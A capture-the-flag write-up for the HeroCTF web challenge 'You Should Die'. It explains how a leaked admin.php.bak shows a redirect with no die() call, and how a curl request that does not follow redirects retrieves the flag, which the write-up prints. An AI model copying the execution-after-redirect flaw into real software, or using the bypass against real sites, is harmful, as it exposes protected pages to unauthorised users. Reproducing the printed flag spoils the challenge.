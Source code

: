 # You Should Die

### Category

Web

### Description

Could you retrieve the flag from this Marketing company ?

URL : http://chall2.heroctf.fr:9000

Format : **Hero{flag}**<br>
Author : **xanhacks**

### Write up

If you look at the source code of the page, you can see this HTML comment :

```html
<!--
    For developper :
        Do not forget to remove admin.php.bak !
    
    Regards,
    Security Team
-->
```

**admin.php.bak** :

```php
<?php

if (session_status() == PHP_SESSION_NONE) {
    session_start();
}

if (!(isset($_SESSION["logged"]) && $_SESSION["logged"] === true)) {
    header("Location: /index.php?error=You are not admin !");
}

echo "Flag : " . getenv("FLAG_MARK3TING");
```

So, if we are not logged in, the page will redirect us to **/index.php**. But the correct code should be :

```php
if (!(isset($_SESSION["logged"]) && $_SESSION["logged"] === true)) {
    header("Location: /index.php?error=You are not admin !");
    die();
}
```

As the **die()** function is missing, the rest of the page is still executed.

If we use **curl** to get the **/admin.php** page with **-L** for **follow redirection**, we obtain the **/index.php** page.

```html
$ curl -s "http://challs.heroctf.fr:XXXX/admin.php" -L | head
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8" />
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
        <meta name="description" content="" />
        <meta name="author" content="" />
        <title>Mark3ting agency</title>
        <link rel="icon" type="image/x-icon" href="assets/img/favicon.ico" />
        <!-- Font Awesome icons (free version)-->
```

However, if we do not want to follow redirection, we see the rest of the page.

```shell
$ curl -s "http://challs.heroctf.fr:XXXX/admin.php"
Flag : Hero{r3d1r3c710n_c4n_b3_d4n63r0u5_57395379}
```

### Flag

Hero{r3d1r3c710n_c4n_b3_d4n63r0u5_57395379}
